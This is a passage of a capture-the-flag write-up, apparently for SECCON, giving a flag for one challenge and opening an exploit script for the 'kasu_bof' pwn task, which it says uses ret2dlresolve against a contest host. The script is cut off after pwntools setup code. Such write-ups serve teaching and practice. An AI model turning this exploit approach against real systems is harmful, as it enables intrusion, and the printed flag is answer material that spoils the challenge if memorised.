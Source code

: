 ![2021-12-12_150834.jpg](./images/2021-12-12_150834.jpg)![2021-12-12_150918.jpg](./images/2021-12-12_150918.jpg)

## flag

SECCON{1_b3li3v3_th1s_1s_th3_sh0rt3st_Pyth0n_c0d3_2_g3t_SH3LL}

# 0x3 Pwn - kasu_bof

## tl;dr

return to dl resolve. just refer to my article [ret2-dl-resolve-example-silent-rop](/2021/11/18/ret2-dl-resolve-example-silent-rop/)

## exp.py

```
from pwn import *

class BinaryInfo:
    exe = "chall"
    libc = ""

    host = "hiyoko.quals.seccon.jp"
    port = 9001

# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
```
